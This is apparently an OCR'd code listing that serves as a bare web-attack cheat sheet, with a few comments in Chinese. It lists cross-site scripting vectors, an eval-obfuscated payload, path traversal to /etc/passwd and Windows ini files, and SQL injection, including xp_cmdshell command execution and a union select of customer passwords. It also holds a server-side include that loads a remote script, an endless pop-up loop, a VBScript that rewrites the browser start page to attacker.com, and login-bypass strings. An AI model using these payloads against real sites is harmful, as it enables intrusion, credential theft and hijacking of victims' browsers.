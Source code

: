 ```
<IFRAME src=javascript:alert('XSS')></IFRAME>
<FRAMESET><FRAME src=javascript:alert('XSS')></FRAME></FRAMESET>
<TABLE BACKGROUND="javascript:alert('XSS')">
<XML src="javascript:alert('XSS');">
<BODY ONLOAD="a();"><SCRIPT>function a(){alert('XSS');}</SCRIPT>
<BASE href="javascript:alert('XSS');//">
getURL("javascript:alert('XSS')")

a="get";b="URL";c="javascript:";d="alert('XSS');";eval(a+b+c+d);
?sql_debug=1
%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
%2E%2E/%2E%2E/%2E%2E/%2E%2E/%2E%2E/windows/win.ini
';exec%20master..xp_cmdshell%20'dir%20 c:%20>%20c:\inetpub\wwwroot\?.txt'--&&
1%20union%20all%20select%20pass,0,0,0,0%20from%20customers%20where%20fname=
http://www.cnblogs.com/http://www.cnblogs.com/http://www.cnblogs.com/http://www.cnblogs.com/etc/passwd
..\..\..\..\..\..\..\..\windows\system.ini
\..\..\..\..\..\..\..\..\windows\system.ini
'';!--"<XSS>=&{()}
<!--#exec cmd="/bin/echo '<SCRIPT SRC'"--><!--#exec cmd="/bin/echo '=http://xss.ha.ckers.org/a.js></SCRIPT>'"-->

<script language="JavaScript">
<!--
while (true)
{
window.open("URI"); //如果URI就是当前页本身，那就更具破坏性。
}
//-->
</script>

<script language="VBScript">
Set RegWsh = CreateObject("WScript.Shell");
//设置IE浏览器默认页
RegWsh.RegWrite("HKCU\Software\Microsoft\Internet Explorer\Main\Start Page", "http://www.attacker.com");
</script>



///注入部分
admin'--

' or 0=0 --
" or 0=0 --
or 0=0 --

' or 0=0 #
" or 0=0 #
or 0=0 #

' or 'x'='x
" or "x"="x
') or ('x'='x

' or 1=1--
" or 1=1--
or 1=1--

' or a=a--
" or "a"="a
') or ('a'='a
") or ("a"="a
```